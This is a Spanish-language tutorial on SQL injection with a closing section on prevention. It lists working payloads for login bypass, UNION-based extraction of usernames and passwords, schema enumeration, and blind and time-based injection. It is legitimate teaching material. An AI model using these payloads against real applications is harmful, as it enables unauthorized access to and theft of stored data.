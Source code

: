 # Inyecciones SQLi (SQL Injection)


---

##  Introducción

En este documento examinaremos de forma práctica y didáctica las vulnerabilidades en bases de datos SQL —conocidas como **inyecciones SQL (SQLi)**—. Las inyecciones SQL consisten en la inserción de consultas o comandos maliciosos en puntos de entrada de una aplicación web, aprovechando validaciones insuficientes para alterar la lógica de ejecución en sistemas de gestión de bases de datos como [Mariadb](../SQL/Mariadb) o [SQLite3](../SQL/SQLite3/). Cuando estas técnicas se aplican en entornos de producción web, pueden permitir desde la exfiltración de información sensible hasta la modificación no autorizada del comportamiento de la aplicación, afectando la confidencialidad, integridad y disponibilidad de los datos. Para ampliar el contexto teórico y práctico, consulta la sección general sobre [Bases de datos](../../Bases%20de%20datos/).

Objetivos de este capítulo:

- Entender qué es una inyección SQL y cómo se explota.

- Identificar vectores típicos y entradas vulnerables en aplicaciones web.


---

## ¿Qué es la inyección SQL?

> La inyección SQL (**SQLi**) es una vulnerabilidad que permite a un atacante manipular las consultas SQL de una aplicación para acceder, modificar o eliminar datos en una base de datos. Se produce cuando la entrada del usuario no se valida ni se sanitiza correctamente, permitiendo la ejecución de código SQL malicioso.


---

## Cómo detectar vulnerabilidades de inyección SQL

Algunos métodos para identificar si una aplicación es vulnerable a SQLi incluyen:

- **Pruebas manuales:** Insertar caracteres especiales (`'`, `"`, `;`, `--`, `#`, etc.) en los campos de entrada y observar errores.
- **Errores de la base de datos:** Mensajes como `syntax error` pueden indicar una vulnerabilidad.
- **Automatización:** Uso de herramientas como [SQLmap](sqlmap.md) para detectar y explotar SQLi.


---

## Recuperar datos ocultos

A veces, los datos de la base de datos están ocultos, pero la inyección SQL puede revelar información oculta al modificar consultas, por ejemplo:

```sql
SELECT * FROM productos WHERE id = '1' OR '1'='1';
```

```url
' OR 1=1-- -
```

```url
' OR '1'='1
```


---

## Subvertir la lógica de la aplicación

Los atacantes pueden modificar consultas para eludir la autenticación:

```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND clave = '' OR '1'='1';
```

Esto permite iniciar sesión sin conocer la contraseña real.

```lua
Username = admin' OR 1=1-- -
Password = ' OR 1=1-- -
```


---

## Inyección SQL UNION attacks

Permite unir múltiples consultas SQL para extraer datos de otras tablas.

### Determinar el número de columnas requeridas

```sql
ORDER BY nº; -- Probamos incrementando 'n' hasta encontrar un error
```

```url
' ORDER BY nº-- -
```

### Encontrar columnas con un tipo de datos útil

```sql
UNION SELECT NULL, NULL, 'texto';
```

```url
' UNION SELECT NULL,NULL,'test'-- -
```


### Uso de un ataque UNION de inyección SQL para recuperar datos interesantes

```sql
UNION SELECT nombre, clave FROM usuarios;
```

```url
' UNION SELECT nombre,clave FROM usuarios-- -
```


### Recuperar múltiples valores dentro de una sola columna

```sql
UNION SELECT nombre || ' - ' || clave FROM usuarios;
```

```url
' UNION SELECT nombre || ' - ' || clave FROM usuarios-- -
```

---

## Examinar la base de datos

Los atacantes pueden obtener información sobre la estructura de la base de datos.

### Identificar la base de datos en uso

```url
' UNION SELECT @@version-- -  # Para MySQL
' UNION SELECT version()-- -  # Para PostgreSQL
' UNION SELECT banner FROM v$version-- -  # Para Oracle
```

### Listar tablas y columnas

```url
' UNION SELECT table_name FROM information_schema.tables-- -
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='usuarios'-- -
```


---

## Inyección SQL ciega

Cuando la aplicación no devuelve errores directos, se pueden usar técnicas como:

### Explotar la inyección SQL ciega desencadenando respuestas condicionales

```sql
AND 1=1 -- [Devuelve verdadero]
AND 1=2 -- [Devuelve falso]
```

### Inyección SQL basada en errores

Forzar la aplicación a mostrar errores:

```sql
AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT);
```

### Explotar la inyección SQL ciega desencadenando retrasos de tiempo

```sql
IF(1=1, SLEEP(5), 0);
```

### Explotar la inyección SQL ciega utilizando técnicas fuera de banda (OAST)

Enviar consultas a servidores externos para filtrar datos.

---

## Inyección SQL en diferentes contextos

- **En URLs:** `https://victima.com/perfil?id=1' OR '1'='1`.
- **En formularios:** Campos de login vulnerables.
- **En encabezados HTTP:** Manipulación de cookies o User-Agent.


---

## Inyección SQL de segundo orden

Los datos maliciosos se almacenan en la base de datos y ejecutan la inyección en otro contexto.

Ejemplo: Un usuario malicioso registra su nombre como:

```sql
admin' --
```
Cuando un administrador lo consulta en otra página, la inyección se ejecuta.


---

##  Cómo prevenir la inyección SQL

**Usar consultas preparadas** con `?` o `bind_param()`:

```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```

**Validar y sanitizar entradas del usuario.**
**Principio de menor privilegio:** No usar cuentas con permisos excesivos.
**Firewalls de aplicaciones web (WAF).**


---

**Conclusión:** La inyección SQL sigue siendo una de las vulnerabilidades más peligrosas, pero con buenas prácticas y medidas de seguridad adecuadas, se puede mitigar el riesgo de ataque.
